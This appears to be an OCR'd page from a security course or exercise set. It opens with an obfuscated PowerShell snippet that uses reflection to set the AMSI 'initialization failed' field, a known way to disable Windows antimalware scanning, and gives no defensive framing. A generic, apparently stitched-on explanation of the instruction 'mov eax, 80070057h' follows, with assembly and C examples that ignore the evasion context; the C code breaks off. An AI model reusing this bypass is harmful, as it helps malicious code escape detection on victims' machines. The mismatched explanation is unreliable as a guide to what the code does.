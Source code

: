 ```powershell
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields('NonPublic,Static')
Foreach($e in $d) {if ($e.Name -like "*ms*nit*ai*") {$f=$e}}
$g=$f.SetValue($null,$true)
```


#### Exercises

#### 7.3.1.1 and 7.3.1.2

The assembly instruction `mov eax, 80070057h` moves the hexadecimal value `80070057h` into the `eax` register. This specific value, `0x80070057`, is a common error code in Windows that translates to `ERROR_INVALID_PARAMETER`, indicating that an invalid parameter was passed to a function.

If you want to use this value in your code or in debugging scenarios, it is often useful to understand what this error code means and how to interpret it. Here's a breakdown of what the instruction does and how to use it:

### Breakdown of the Instruction
- `mov` is an assembly instruction used to move data from one place to another.
- `eax` is one of the general-purpose registers in x86 and x86-64 architectures.
- `80070057h` is a hexadecimal value.

### Example in Context

#### Assembly Example
In an assembly language program, this instruction might be part of an error-handling routine or might be used to set up a specific error condition.

```asm
section .text
    global _start

_start:
    mov     eax, 80070057h   ; Move the error code into the EAX register
    ; Further instructions here
    ; ...

    ; Exit the program
    mov     eax, 1           ; syscall number for sys_exit
    xor     ebx, ebx         ; exit code 0
    int     0x80             ; make the syscall
```

#### C/C++ Example
In C or C++, you might define and use this error code as follows:

```c
#include <stdio.h>

#define ERROR_INVALID_PARAMETER 0x80070057

void checkErrorCode(unsigned int errorCode) {
    if (errorCode == ERROR_INVALID_PARAMETER) {
        printf("Error: Invalid parameter (0x%08X)\n", errorCode);
    } else {
        printf("Error: Unknown (0x%08X)\n", errorCode);
    }
}

int main() {
    unsigned int errorCode = ERROR_INVALID_PARAMETER;
    checkErrorCode(errorCode);
    return 0;
```